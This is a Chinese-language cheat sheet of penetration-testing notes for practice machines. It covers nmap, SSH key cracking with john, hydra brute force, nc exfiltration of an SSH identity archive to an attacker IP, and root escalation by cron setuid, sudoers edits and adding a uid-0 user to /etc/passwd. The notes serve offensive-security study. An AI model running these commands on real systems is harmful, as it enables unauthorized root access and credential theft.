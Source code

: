 靶机常见思路
## **nmap**
nmap -sC -A -T 4 -n -p- 10.10.10.171
nmap参数：
-sC    根据端口识别的服务，调用默认脚本
-A     OS识别,版本探测，脚本扫描和traceroute
-T（0-5）时间优化
-n/-R   不对IP进行域名反向解析/为所有的IP都进行域名的反响解析
-p- 扫描所有端口
## **searchsploit**
searchsploit 是一个命令行搜索 exp 的工具，可以直接在 kali 终端中搜 exp，使用空格来区分关键词
例如：searchsploit opennetadmin
加上 -m 可以把 exp 复制到当前目录
netstat
netstat 各个参数解释
-a (all)显示所有选项，默认不显示LISTEN相关
-t (tcp)仅显示tcp相关选项
-u (udp)仅显示udp相关选项
-n 拒绝显示别名，能显示数字的全部转化成数字
-l 仅列出有在 Listen (监听) 的服務状态
-p 显示建立相关链接的程序名
-r 显示路由信息，路由表
-e 显示扩展信息，例如uid等
-s 按各个协议进行统计
-c 每隔一个固定时间，执行该netstat命令
## **ssh相关**
**john爆破密钥密码**
用户将自己的公钥存储在远程主机上面，登陆的时候远程主机会向用户发送一段随机字符串，用户用私钥加密之后再将加密后的发送给主机，如果主机能够用公钥解密成功则可以连接
如果能查看密钥的话可以保存下来，然后用密钥去连接，如果密钥有密码的话，可以使用 ssh2john.py 先转换成 john 格式
python /usr/share/john/ssh2john.py mi > sshjohn
然后使用 john 爆破一下
john --wordlist=/usr/share/wordlists/rockyou.txt sshjohn   使用 john 爆破 --wordlist 指定字典
john 工具对于同一个 shadow 文件只会进行一次爆破，如果第二次执行 john shadow 是不会得到结果的
如果想查看上一次爆破的结果，可以加上个 --show
**hydra爆破ssh**
hydra -l jim -w 10 -P 1.txt -t 10 -v -f 192.168.149.160 ssh
-l jim              指定爆破账号为 jim
-L user.txt       指定用户名字典为 user.txt
-w 10             设置最大超时时间10s，默认30s
-P pwd.txt      指定密码字典为 pwd.txt
-t 10               指定爆破线程为 10 个
-v                   指定显示爆破过程
-f                    查找到第一个可以使用的账号和密码的时候停止破解
**authorized_keys**
authorized_keys，里面实际放的就是客户机的公钥，只要公钥在这里面，这个客户机就不用使用密码就能登录
一开始 ubuntu 中没有这个文件
wsl 用 ssh 登录是需要密码的
如果我把 wsl 的公钥拷出来，放到 ubuntu 用户 yichen 的 .ssh 下 authorized_keys 中，那么将不再需要密码
那么，如果有权限，可以把自己生成的公钥拷到用户的 authorized_keys 中，那么就可以直接 ssh 登录到这个用户
（那个靶机是允许执行另一个用户的 cp 命令，然后拷贝公钥到 .ssh/authorized_keys，再登录。但感觉实际用不到，会有这么用的？也许吧😄）
## **sudo -l**
sudo -l 可以列出当前用户可以执行哪一些指令，如果有 NOPASSWD 的，就是不需要密码就能使用 sudo 的
例如，php 是不用密码就能使用 sudo 的，那么可以写一个 php 脚本 <?php system('/bin/sh'); ?>，然后一执行就能拿到 root 权限
还有很多软件可以具体找一下他们怎么能开一个 shell，sudo 打开就是 root
## **redis未授权访问**
关于 redis 核心利用点是，通过没有身份校验的 redis 服务进行登陆，同时指定 config dir 和 config dbfilename 的路径与名称，达到把本地公钥存储到远程服务器上，这时候在通过 ssh 进行远程登陆。可以获得名为 redis 的 shell
有个利用脚本
<https://github.com/Avinash-acid/Redis-Server-Exploit>
## **python交互式终端**
一般打开的 shell，只有一个 $ 符号，通过这个能好看一下
python -c "import pty;pty.spawn('/bin/bash')"
## **从靶机上拷出东西来**
(如果有 web 服务的话，直接拷到 web 目录，然后下载应该也可以吧)
攻击机新开一个终端，nc -lvp 10001 >backup-ssh-identity-files.tgz 用来接收那个压缩包文件
靶机 shell 里面使用 nc 10.10.15.84 10001 < backup-ssh-identity-files.tgz
## **rbash逃逸**
rbash 会限制一些命令没法用，参考：https://xz.aliyun.com/t/7642
## **whatweb**
一个命令行下识别 cms 的工具
## **docker相关**
挂载目录：加参数 -v /root/:/root/
在这个靶机中拿到用户权限之后可以对 docker 进行操作，而 docker 进去是 root 权限的，docker 挂载上靶机的 root 目录之后就可以 root 权限对 /root 目录进行操作了
当你能root权限写文件
## **写linux计划任务**
cron 的默认配置文件是 /etc/cronted，#开头的是注释，不会被处理
然后上面的内容是来设置 cron 的运行环境的
* 表示任意的数，即每分钟、每小时、每天...
如果有编辑文件的软件（比如 teehee）是 root 权限运行的话可以写 * * * * * root chmod 4777 /bin/sh 进去，等个一分钟就能获得一个 root 权限的 shell
## **写/etc/sudoers**
这个东西的作用是当用户执行 sudo 的时候，会先到这里面去找，如果发现用户有 sudo 的权限就能直接以 root 的权限来执行命令
文件内容公式：授权用户/组 主机=[(切换到哪些用户或组)] [是否需要输入密码验证] 命令1,命令2...
那么可以往里写 yichen ALL=(ALL:ALL) ALL 这样 yichen 就能通过 sudo 来执行 root 权限
又或者 peter 可以不使用密码用 sudo 执行任何命令 peter ALL=(ALL) NOPASSWD: ALL
## **写/etc/passwd**
首先要生成 hash
openssl passwd -1 -salt yichen 123456
用户名：yichen，密码：123456
echo 'yichen:$1$yichen$6nzFZVX5T21iu2AmBgzin/:0:0:yichen:/root:/bin/bash' >> /etc/passwd
然后 su yichen，输入密码：123456 就拿到 root 权限了
## **重要/敏感文件**
**nginx**
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf 或 /etc/nginx/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
